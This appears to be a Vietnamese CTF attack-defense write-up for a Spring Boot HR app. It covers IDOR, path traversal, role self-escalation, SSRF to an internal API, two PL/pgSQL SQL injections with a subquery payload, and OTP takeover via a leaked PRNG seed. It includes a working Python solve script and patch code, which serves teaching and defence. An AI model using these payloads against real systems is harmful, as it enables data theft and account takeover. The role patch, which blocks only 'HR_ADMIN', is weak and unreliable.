








# PTITAD 2026

## 4. AD - hr_manager

### Mô tả bài

Đề là một ứng dụng Spring Boot quản lý nhân sự, chạy ở cổng `2727`, backend PostgreSQL. Ứng dụng lưu hồ sơ nhân viên, báo cáo hiệu năng công ty, và tài liệu bài học. Flag được cất ở nhiều nơi tùy lỗ hổng: `private_note` trong hồ sơ nhân viên, nội dung các file báo cáo trong `storage/reports/`, và dữ liệu chỉ dành cho `HR_ADMIN`.

Ứng dụng có bảy lỗ hổng độc lập:

1. IDOR - xem hồ sơ đầy đủ (kể cả `privateNote`) của bất kỳ nhân viên nào.
2. Path Traversal - đọc file tùy ý qua endpoint tải tài liệu bài học.
3. Privilege Escalation - tự nâng quyền lên `HR_ADMIN`.
4. SSRF - ép server truy cập API nội bộ không xác thực.
5. SQL Injection - inject vào dynamic SQL trong hàm `fn_directory_search` (`/api/directory`).
6. Account Takeover - mã khôi phục (OTP) sinh từ PRNG seed bằng timestamp và server trả luôn seed → chiếm bất kỳ tài khoản nào.
7. SQL Injection #2 - inject vào hàm `fn_headcount_stats` (`/api/stats`), cùng bản chất với #5.

### Phân tích và khai thác

#### Lỗ hổng #1 - IDOR: đọc hồ sơ bất kỳ nhân viên

Endpoint chi tiết nhân viên chỉ kiểm tra "đã đăng nhập", không kiểm tra quyền sở hữu hay vai trò:

```java
@GetMapping("/{employeeId}")
public Map<String, Object> detail(HttpServletRequest request,
                                  @PathVariable int employeeId) {
    session.require(request);                       // ← chỉ cần có session hợp lệ
    Map<String, Object> body = new LinkedHashMap<>();
    body.put("ok", true);
    body.put("employee", employees.detail(employeeId));   // ← trả hồ sơ của employeeId bất kỳ
    return body;
}
```

`detail()` gọi `merge()` trả về toàn bộ hồ sơ, bao gồm các field nhạy cảm:

```java
out.put("bankAccount", Texts.orEmpty(profile.getBankAccount()));
out.put("signature",   Texts.orEmpty(profile.getSignature()));
out.put("privateNote", Texts.orEmpty(profile.getPrivateNote()));   // ← flag
```

Không có bất kỳ so sánh `current.getId() == employeeId` hay `isHrAdmin()`. Chỉ cần một tài khoản đăng nhập được, đổi `employeeId` là dump hết. Endpoint `/api/employees/by-username/{username}` cũng cùng lỗi.





#### Lỗ hổng #2 - Path Traversal: đọc file tùy ý

Endpoint `GET /api/lessons/file?name=...` nối chuỗi thẳng vào đường dẫn, không canonicalize:

```java
public byte[] read(String name) {
    ...
    File target = new File(storageDir + File.separator + "lessons" + File.separator + name);
    if (!target.exists() || target.isDirectory()) {
        throw new ApiException(404, "Không tìm thấy tài liệu bài học");
    }
    ...
    return Files.readAllBytes(target.toPath());
}
```

`name` không hề bị lọc `..`, cũng không kiểm tra đường dẫn kết quả có nằm trong thư mục `lessons` hay không. Với `name = ../reports/<code>.txt`, đường dẫn rút gọn thành `storageDir/reports/<code>.txt` - chính là nơi server ghi nội dung báo cáo (chứa flag). Thậm chí có thể traverse sâu hơn để đọc file hệ thống.



#### Lỗ hổng #3 - Privilege Escalation: tự nâng quyền HR_ADMIN

Endpoint cập nhật hồ sơ cá nhân (`POST /api/profile`, `POST /profile`) nhận thẳng field `role` từ payload người dùng rồi ghi vào DB:

```java
public Map<String, Object> updateOwnProfile(Employee current, Map<String, Object> payload) {
    ...
    String role = Texts.limit(str(payload, "role", current.getRole()), 24);  // ← lấy từ request
    ...
    employees.updateRole(current.getId(), role);   // ← ghi role tùy ý
    ...
}
```

Không có bất kỳ whitelist hay chặn giá trị `HR_ADMIN`. Trong khi đó cổng admin chỉ kiểm tra chuỗi role:

```java
public boolean isHrAdmin() {
    return "HR_ADMIN".equals(role);
}
// ApiAdminController: session.requireHrAdmin(request) trước /api/admin/reports
```

Chỉ cần gửi `{"role": "HR_ADMIN"}` là leo quyền, sau đó truy cập `/api/admin/reports` để dump toàn bộ báo cáo công ty





#### Lỗ hổng #4 - SSRF: truy cập API nội bộ

Endpoint `POST /api/reports/import` nhận `sourceUrl` và để server tự tải về (`RemoteContentService.fetch`). Hàm này chỉ kiểm tra scheme, không lọc host:

```java
private String requireUrl(String rawUrl) {
    ...
    String lowered = url.toLowerCase(Locale.ROOT);
    if (!lowered.startsWith("http://") && !lowered.startsWith("https://")) {
        throw new ApiException(400, "Chỉ hỗ trợ giao thức http hoặc https");
    }
    return url;   // ← không kiểm tra loopback / private / link-local
}
```

Ngoài ra `conn.setInstanceFollowRedirects(true)` nên còn có thể vòng qua redirect. Không có kiểm tra `127.0.0.1`, `169.254.x.x`, `10.x`, `192.168.x` - attacker trỏ tới API nội bộ không xác thực và server đọc hộ, echo nội dung về:



#### Lỗ hổng #5 - SQL Injection: dynamic SQL trong PL/pgSQL

Endpoint `GET /api/directory?extra=&sort=&dir=` truyền ba tham số `extra`, `sort`, `dir` xuống hàm `fn_directory_search`. Ở tầng service, chúng chỉ được "default nếu rỗng", không whitelist:

```java
String extra     = Texts.defaultIfBlank(extraColumn, DEFAULT_EXTRA_COLUMN);
String sort       = Texts.defaultIfBlank(sortColumn, DEFAULT_SORT_COLUMN);
String direction  = Texts.defaultIfBlank(sortDirection, DEFAULT_SORT_DIRECTION);
rows = directory.search(kw, dept, extra, sort, direction);
```

Trong hàm PL/pgSQL, `p_keyword`/`p_department` dùng bind param (`$1`, `$2`) nên an toàn, nhưng ba tham số cột lại bị nối chuỗi trực tiếp vào SQL rồi `EXECUTE`:

```sql
v_sql :=
    'SELECT e.id, ..., '
    || '(' || p_extra_col || ')::text '        -- ← nối chuỗi
    || 'FROM employee e ... '
    || 'WHERE ($1 = '''' OR ...) AND ($2 = '''' OR ...) '
    || 'ORDER BY ' || p_sort_col || ' ' || p_sort_dir || ' LIMIT 200';  -- ← nối chuỗi

RETURN QUERY EXECUTE v_sql USING p_keyword, p_department;
```

`p_extra_col` nằm ngay trong danh sách SELECT nên là điểm inject thuận tiện nhất: nhét một subquery vào để rút toàn bộ `private_note`:



`sort`/`dir` cũng inject được (ví dụ subquery qua `ORDER BY`), nhưng `extra` là đường ngắn nhất vì đọc dữ liệu trực tiếp.

#### Lỗ hổng #6 - Account Takeover: OTP khôi phục đoán được (predictable PRNG seed)

Luồng khôi phục truy cập (`/api/auth/recovery`) sinh mã OTP 6 số bằng `java.util.Random` với seed là timestamp thời điểm gọi, rồi trả chính timestamp đó về cho client:

```java
public long request(String username) {
    ...
    long requestedAt = System.currentTimeMillis();
    Random generator = new Random(requestedAt);          // ← seed = timestamp
    String code = String.valueOf(100000 + generator.nextInt(900000));
    codes.insert(employee.getId(), code);
    ...
    return requestedAt;                                   // ← lộ seed ra response
}

public String confirm(String username, String code) {
    ...
    if (employee == null || !codes.consume(employee.getId(), value)) {
        throw new ApiException(400, "Mã xác thực không hợp lệ");
    }
    String token = HashUtil.randomToken(24);
    sessions.create(token, employee.getId());            // ← cấp session cho victim
    return token;
}
```

`java.util.Random` là PRNG tất định: biết seed là tính ra đúng chuỗi số. Vì `request` trả luôn `requestedAt` trong JSON (`{"requestedAt": ...}`), attacker có ngay seed để tái tạo OTP — không cần đọc email/notification của nạn nhân. `confirm` thành công thì cấp session token của nạn nhân, tức chiếm tài khoản hoàn toàn.

Chuỗi khai thác (chiếm cả `HR_ADMIN`):

1. `POST /api/auth/recovery/request {"username":"<victim>"}` → nhận `requestedAt` (seed).
2. Tái tạo `code = 100000 + new Random(requestedAt).nextInt(900000)` (mô phỏng đúng LCG của Java).
3. `POST /api/auth/recovery/confirm {"username":"<victim>","code":"<code>"}` → nhận `token`.
4. Đặt `Cookie: HRSESSION=<token>` → thao tác với quyền của nạn nhân (vd `GET /api/admin/reports` nếu victim là HR_ADMIN).

Đây là ATO không cần mật khẩu, áp dụng cho mọi tài khoản tồn tại (kể cả tài khoản chứa flag hoặc HR_ADMIN).

#### Lỗ hổng #7 - SQL Injection #2: `fn_headcount_stats` (`/api/stats`)

Endpoint `GET /api/stats?groupBy=` truyền `groupBy` xuống hàm `fn_headcount_stats(p_group_col)`. Dù tầng Java gọi bằng bind param (`fn_headcount_stats(?)`), bản thân hàm PL/pgSQL lại nối chuỗi `p_group_col` vào SQL động rồi `EXECUTE` - cùng bản chất với #5:

```sql
v_sql :=
    'SELECT (' || p_group_col || ')::text AS bucket, count(*)::bigint '   -- ← nối chuỗi
    || 'FROM employee e ... GROUP BY 1 ORDER BY 2 DESC, 1 ASC LIMIT 50';
RETURN QUERY EXECUTE v_sql;
```

`StatsService` chỉ `defaultIfBlank`, không whitelist. `p_group_col` nằm trong SELECT nên nhét subquery vào là rút dữ liệu ra field `bucket`:

```
GET /api/stats?groupBy=(SELECT string_agg(private_note,' | ') FROM employee_profile WHERE private_note LIKE 'PTITAD%')
```



→ trả về `bucket` chứa toàn bộ `private_note` (một request lấy sạch flag), y hệt #5 nhưng qua endpoint khác.

#### Script giải

```python
import re
import secrets
import sys

import requests

PORT = 2727
TIMEOUT = 10
FLAG_RE = re.compile(r"PTITAD\{[A-Za-z0-9_]+\}")


def register_and_login(base):
    session = requests.Session()
    username = "CTV" + secrets.token_hex(6)              # khớp ^CTV[A-Za-z0-9_]{3,24}$
    email = f"{username.lower()}@x.ptit.vn"              # phải là *.ptit.vn
    password = secrets.token_urlsafe(12)
    session.post(f"{base}/api/auth/register",
                 json={"username": username, "email": email,
                       "password": password, "fullName": "Exploit Bot"},
                 timeout=TIMEOUT).raise_for_status()
    session.post(f"{base}/api/auth/login",
                 json={"username": username, "password": password},
                 timeout=TIMEOUT).raise_for_status()
    return session


# --- reportCode: 3 đường, thử lần lượt ---
def report_traversal(s, base, code):        # (a) đường chính
    r = s.get(f"{base}/api/lessons/file",
              params={"name": f"../reports/{code}.txt"}, timeout=TIMEOUT)
    return set(FLAG_RE.findall(r.text)) if r.status_code == 200 else set()


def report_admin(s, base, code):            # (b) tự nâng quyền rồi dump toàn bộ report
    s.post(f"{base}/api/profile", json={"role": "HR_ADMIN"}, timeout=TIMEOUT)
    r = s.get(f"{base}/api/admin/reports", timeout=TIMEOUT)
    if r.status_code != 200:
        return set()
    for item in r.json().get("items", []):
        if item.get("reportCode") == code:
            return set(FLAG_RE.findall(item.get("content") or ""))
    return set()


def report_ssrf(s, base, code):             # (c) ép server đọc API nội bộ
    r = s.post(f"{base}/api/reports/import",
               json={"weekLabel": "exploit",
                     "sourceUrl": f"http://127.0.0.1:8081/internal/reports/{code}"},
               timeout=TIMEOUT)
    return set(FLAG_RE.findall(r.text)) if r.status_code == 200 else set()


def steal_report(s, base, code):
    for method in (report_traversal, report_admin, report_ssrf):
        try:
            found = method(s, base, code)
            if found:
                return found
        except Exception:
            continue
    return set()


def steal_employee(s, base, emp_id):        # IDOR
    r = s.get(f"{base}/api/employees/{emp_id}", timeout=TIMEOUT)
    return set(FLAG_RE.findall(r.text)) if r.status_code == 200 else set()


def steal(ip, hints):
    base = f"http://{ip}:{PORT}"
    s = register_and_login(base)
    found = set()
    for hint in hints:                      # hint: {"employeeId": N} hoặc {"reportCode": "RPT-..."}
        if "employeeId" in hint:
            found |= steal_employee(s, base, hint["employeeId"])
        if "reportCode" in hint:
            found |= steal_report(s, base, hint["reportCode"])
    return found


if __name__ == "__main__":
    ip = sys.argv[1]                         # host, vd: localhost
    # hint lấy từ attack_data; ví dụ quét thủ công:
    hints = [{"employeeId": i} for i in range(1, 30)]
    for flag in steal(ip, hints):
        print(flag, flush=True)
```

#### Nguyên nhân gốc và hướng vá

Năm lỗ hổng đều là thiếu kiểm soát trên dữ liệu người dùng; vá từng cái:

1. IDOR - chỉ cho chủ hồ sơ / `HR_ADMIN` thấy field nhạy cảm, redact `privateNote`/`bankAccount`/`signature` cho người khác thay vì trả full:

```java
if (viewer.getId() != ownerId && !viewer.isHrAdmin()) {
    employee.remove("privateNote");
    employee.remove("bankAccount");
    employee.remove("signature");
}
```

2. Path Traversal - canonicalize và bắt buộc nằm trong thư mục gốc:

```java
Path base = new File(storageDir, "lessons").getCanonicalFile().toPath();
Path canonical = new File(base.toFile(), name).getCanonicalFile().toPath();
if (!canonical.startsWith(base)) {
    throw new ApiException(400, "Invalid path");
}
```

3. Privilege Escalation - không cho tự set `role`; từ chối riêng giá trị leo thang:

```java
String requested = str(payload, "role", current.getRole());
String role = "HR_ADMIN".equalsIgnoreCase(requested) ? current.getRole()
                                                       : Texts.limit(requested, 24);
```

4. SSRF - resolve host và chặn địa chỉ nội bộ trước khi fetch (đồng thời cân nhắc tắt follow-redirect):

```java
InetAddress addr = InetAddress.getByName(target.getHost());
if (addr.isLoopbackAddress() || addr.isAnyLocalAddress()
        || addr.isLinkLocalAddress() || addr.isSiteLocalAddress()
        || addr.isMulticastAddress()) {
    throw new ApiException(400, "Cannot fetch from internal address");
}
```

5. SQL Injection - whitelist ba tham số cột/hướng ở tầng service trước khi truyền xuống hàm:

```java
private static final Set<String> COLS = Set.of("e.email", "e.job_title", "e.full_name", "e.id");
private static final Set<String> SORTS = Set.of("e.id", "e.full_name", "e.job_title", "e.email");
private static final Set<String> DIRS = Set.of("ASC", "DESC");

if (!COLS.contains(extra))  throw new ApiException(400, "Invalid extra column");
if (!SORTS.contains(sort))  throw new ApiException(400, "Invalid sort column");
if (!DIRS.contains(direction.toUpperCase())) throw new ApiException(400, "Invalid sort direction");
```

Chỉ những định danh cột hợp lệ mới lọt vào chuỗi SQL nối trong `fn_directory_search`, triệt tiêu injection.

6. Account Takeover (OTP khôi phục) - dùng `SecureRandom`, không trả seed/timestamp về client, và ràng buộc thêm hạn dùng + số lần thử:

```java
private static final SecureRandom RNG = new SecureRandom();

public void request(String username) {
    ...
    String code = String.format("%06d", RNG.nextInt(1_000_000));   // không dựa timestamp
    codes.insert(employee.getId(), code, Instant.now().plusSeconds(300)); // TTL ngắn
    ...
    // KHÔNG return requestedAt / seed ra ngoài
}
```

Kèm giới hạn số lần `confirm` sai (khoá tạm sau vài lần) để chặn brute-force phần còn lại.

7. SQL Injection #2 (`fn_headcount_stats`) - whitelist `groupBy` ở `StatsService` giống #5:

```java
private static final Set<String> GROUPS = Set.of("d.name", "e.job_title", "e.contract_type", "e.status");
if (!GROUPS.contains(column)) throw new ApiException(400, "Invalid group column");
```

Về lâu dài nên sửa cả hai hàm PL/pgSQL để không nối chuỗi định danh cột (dùng `format('%I', col)` với whitelist, hoặc `quote_ident`), thay vì chỉ chặn ở tầng service.

